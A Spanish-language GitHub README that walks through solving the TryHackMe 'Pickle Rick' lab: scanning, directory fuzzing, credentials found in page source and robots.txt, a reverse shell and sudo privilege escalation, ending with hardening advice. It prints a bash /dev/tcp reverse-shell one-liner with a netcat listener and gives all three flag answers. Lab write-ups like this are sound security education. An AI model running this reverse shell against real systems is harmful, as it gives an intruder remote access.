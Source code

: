 # **Explotación de Máquina Pickle Rick (TryHackMe)**

![Nivel: Fácil](https://img.shields.io/badge/Nivel-Fácil-green) ![Tema: Web Exploitation](https://img.shields.io/badge/Tema-Web%20Exploitation-blue)

## **Descripción**
Este repositorio documenta la explotación completa de la máquina **Pickle Rick** de TryHackMe, basada en la serie animada *Rick and Morty*. La máquina involucra:
1. Análisis de código fuente web
2. Fuzzing de directorios
3. Explotación de panel de comandos
4. Escalada de privilegios mediante mala configuración de sudo

**Tiempo estimado**: 20-30 minutos  
**Dificultad**: Fácil  
**Sistema operativo**: Linux (Ubuntu)

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Explotación Web](#explotación-web)
3. [Shell Inversa](#shell-inversa)
4. [Escalada de Privilegios](#escalada-de-privilegios)
5. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn 10.10.58.40 -oN escaneo
```

**Hallazgos clave**:
- **Puerto 22/tcp**: SSH (filtrado/cerrado)
- **Puerto 80/tcp**: HTTP - Apache httpd 2.4.18 (Ubuntu)

### 2. Análisis Web
- Acceso a `http://10.10.58.40`
- Inspección de código fuente (Ctrl+U):
  ```html
  <!-- Username: R1ckRul3s -->
  ```
- **Usuario descubierto**: `R1ckRul3s`

### 3. Fuzzing de Directorios
```bash
dirb http://10.10.58.40/ /usr/share/wordlists/dirb/common.txt
```

**Directorios encontrados**:
- `/login.php` - Panel de autenticación
- `/robots.txt` - Archivo de exclusión de robots

### 4. Archivo robots.txt
```bash
curl http://10.10.58.40/robots.txt
```
**Contenido**:
```
Wubbalubbadubdub
```
- **Posible contraseña**: `Wubbalubbadubdub`

## **Explotación Web**

### 5. Acceso al Panel de Login
- URL: `http://10.10.58.40/login.php`
- Credenciales:
  - Usuario: `R1ckRul3s`
  - Contraseña: `Wubbalubbadubdub`
- **Resultado**: Acceso concedido a panel de comandos web

### 6. Primera Flag (Ingrediente 1)
```bash
ls
cat Sup3rS3cretPickl3Ingred.txt
```
- **Ingrediente 1**: `mr. meeseek hair`

## **Shell Inversa**

### 7. Establecimiento de Reverse Shell
**En el panel web**:
```bash
bash -c 'bash -i >& /dev/tcp/TU_IP_ATACANTE/443 0>&1'
```

**En máquina atacante**:
```bash
nc -lvnp 443
```
- **Shell obtenida como usuario `www-data`**

## **Escalada de Privilegios**

### 8. Segunda Flag (Ingrediente 2)
```bash
cd /home/rick
ls -la
cat "second ingredients"
```
- **Ingrediente 2**: `1 jerry tear`

### 9. Escalada a Root
```bash
sudo -l
```
**Resultado**:
```
User www-data may run ALL commands as root without password.
```

```bash
sudo su -
whoami
# Output: root
```

### 10. Tercera Flag (Ingrediente 3)
```bash
ls /root
cat /root/3rd.txt
```
- **Ingrediente 3**: `fleeb juice`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Exposición de credenciales en código fuente**
2. **Contraseña en archivo robots.txt** 
3. **Panel de comandos sin restricciones**
4. **Configuración insegura de sudo** (ALL NOPASSWD: ALL)

### Hardening Recomendado
- Eliminar comentarios sensibles del código fuente
- Restringir acceso a archivos de configuración
- Implementar validación de entrada en paneles de comandos
- Configurar sudo con mínimos privilegios necesarios

### Flags Obtenidas
1. **mr. meeseek hair** - Primer ingrediente
2. **1 jerry tear** - Segundo ingrediente  
3. **fleeb juice** - Tercer ingrediente


---

**Herramientas utilizadas**:
- Nmap
- Dirb
- Netcat
- Bash

**Referencias**:
- [TryHackMe - Pickle Rick Room](https://tryhackme.com/room/picklerick)
- [OWASP - Information Exposure](https://owasp.org/www-community/vulnerabilities/Information_exposure)
